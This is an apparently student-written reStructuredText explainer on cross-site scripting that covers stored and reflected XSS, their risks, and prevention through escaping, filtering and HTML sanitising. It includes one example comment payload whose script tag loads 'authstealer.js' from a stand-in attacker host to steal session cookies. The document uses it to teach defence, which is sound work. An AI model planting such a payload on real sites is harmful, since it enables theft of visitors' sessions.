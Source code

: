 Cross-Site Scripting
====================

Introduction
------------


Cross-site scripting is when an attacker inserts code into a legitimate website, 
and is considered one of the more dangerous website vulnerabilities. Web sites are 
vulnerable  when they don't use validation or encoding on user generated 
data. This is dangerous for the site users, who are at risk for their data being 
stolen. There are several different ways for web applications to help prevent 
Cross-Site Scripting, such as escaping characters, Signature based filtering, 
and avoiding/validating HTML given by users. Users can also take precautions, such 
as using anti-viruses, checking that the sites they are using are safe, and being 
careful of clicking on unknown links.  


What is Cross-site scripting and Why is it Dangerous?
-----------------------------------------------------


* XSS, or Cross-Site Scripting is inserting malicious code into an actual website 
  to gather information from the users. 

* Most danger lies on the users of the sites, as the code targets their information 
  and use rather than the website itself. [xss]_ 


* Some examples of what dangerous XSS could do include: 

	1. Access session cookies, which can be used to impersonate the user
	2. Keylogging, which tracks the users keystrokes to catch usernames and passwords
	3. Phishing, or sending out fake and/or malicious emails
	4. Installing malicious software or viruses on the user's computer
	5. and Identity Theft [xss]_
	
* There are two different types of XSS attacks, stored and reflective

* Stored xss is "stored", or imbedded, on the website itself and steals data every time 
  the website is visited. [xss-prevention]_ It is also known as "persistent XSS", 
  and can be the more dangerous of the two types. [xss-attacks]_

* Reflective xss is stored in a link embedded in the website that the user has to 
  click on to activate. [xss-attacks]_ 


What Can Be Done to Prevent XSS through Web Security
----------------------------------------------------
	
* Web Application Firewall (WAF) - most common protection [xss-attacks]_ 
	
* Signature based Filtering - "identifies and blocks malicious requests" [xss-attacks]_ 
	
* Use escape characters -  escape any characters that could change the websites code [xss-prevention]_ 
	
	* PHP Applications can use **htmlentities()** , a built in function for 
	  escaping characters 
	
	* Also escape any HTML, attribute, JavaScript, JSON (with HTML), CSS, and URL 
	  before entering any untrusted or un-validated data [xss_cheat_sheet]_
	
* Escape data output, not input - when displaying to user [xss-prevention]_ 

	* "Security researcher Jouko Pynnönen of Klikki Oy realized MySQL column 
	  truncation can defeat before-insert XSS prevention strategies" [xss-prevention]_

* Avoid using straight HTML - use a markup language, such as Markdown or 
  ReStructuredText

* If HTML is needed, such as on blogging site, use a library such as HTML Purifier 
  to help validate the HTML [xss-prevention]_ 


What You Can Do To Spot/Prevent XSS
---------------------------

* Be careful of links that you click on in websites and through emails. 

* Make sure that websites that you are visiting are safe

* Have a good Anti-Virus/ Web Security, such as McAfee AntiVirus Plus, Bitdefender 
  AnitVirus Plus, or Kaspersky Anti-Virus

Example of Cross-Site Scripting:
-------------------------------

.. figure:: sorted-XSS.png

	Stored XSS [xss-attacks]_ 

	
* Stored XSS Example: An attacker figures out that the comment section of a website can store 
  HTML tags. They leave a comment that says: 
  "Great price for a great item! Read my review here <script src="http://hackersite.com/authstealer.js"> </script>" [xss-attacks]_
  This is a stored in the website, and every time someone visits the page, they have their 
  session cookies stolen


	* Harder for hackers to attempt, because they must find a highly trafficked site that 
	  also has a security hole. [xss-prevention]_
	
	
* Reflective XSS: Similar to above, but the user would have to click on the link 
  to activate the code. 


Sources
-------

.. [xss] "`What is Cross-Site Scripting and How Can You Fix it? <https://www.acunetix.com/websitesecurity/cross-site-scripting/>`_." Acunetix. N.p. n.d. Web. 16 Feb. 2017. 

.. [xss-attacks] "`Cross Site Scripting (XSS) Attacks <https://www.incapsula.com/web-application-security/cross-site-scripting-xss-attacks.html>`_." Incapsula.com. N.p., n.d. Web. 18 Feb. 2017.

.. [xss-prevention] "`Everything You Need to Know About Preventing Cross-Site Scripting Vulnerabilities in PHP - Paragon Initiative Enterprises Blog <https://paragonie.com/blog/2015/06/preventing-xss-vulnerabilities-in-php-everything-you-need-know>`_." RSS. Paragon Initiative Enterprises , 16 June 2015. Web. 19 Feb. 2017. 

.. [xss_cheat_sheet] "`XSS (Cross Site Scripting) Prevention Cheat Sheet <https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet>`_." XSS (Cross Site Scripting) Prevention Cheat Sheet - OWASP. N.p., n.d. Web. 19 Feb. 2017.

*Written by Kyann, Edited by Rasim and Cole.*


